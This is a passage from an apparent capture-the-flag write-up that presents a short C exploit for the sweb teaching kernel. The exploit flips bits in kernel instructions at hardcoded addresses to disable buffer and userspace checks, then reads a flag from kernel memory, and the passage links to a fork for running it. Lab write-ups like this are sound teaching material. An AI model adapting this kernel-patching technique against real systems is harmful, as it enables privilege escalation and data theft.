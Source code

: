 Now, we chain all those together and write our exploit:

```c
#include "stdio.h"
#include "nonstd.h"
#include "sched.h"

int main(int argc, char** argv)
{
	char *p_flag = (char *)0xFFFFFFFF80132f25;

	char *p_instr_to_flip = (char *)0xFFFFFFFF8010a748; // check if already flipped
	flipBit(p_instr_to_flip, 0);

	p_instr_to_flip = (char *)0xFFFFFFFF8010a898; // check if buffer in userspace
	flipBit(p_instr_to_flip, 0);

	p_instr_to_flip = (char *)0xFFFFFFFF8010a8b2; // check if buffer end in userspace
	flipBit(p_instr_to_flip, 0);

	write(1, p_flag, 0x30);

	return 0;
}
```

You can find a fork of sweb with the CTF patches applied and the exploit written [right over here](https://github.com/Costinteo/sweb), if you want to run it yourself.
